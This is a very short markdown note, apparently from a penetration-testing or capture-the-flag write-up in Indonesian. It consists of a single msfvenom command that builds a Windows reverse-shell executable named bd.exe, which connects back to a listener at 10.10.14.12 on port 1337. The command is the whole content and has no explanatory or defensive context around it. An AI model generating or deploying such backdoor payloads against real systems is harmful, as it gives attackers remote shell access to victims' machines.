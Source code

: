 # msfvenom dengan Backconnect.exe

    msfvenom --platform windows --payload  windows/shell/reverse_tcp LHOST=10.10.14.12 LPORT=1337 -b "\x00" -f exe -o ./bd.exe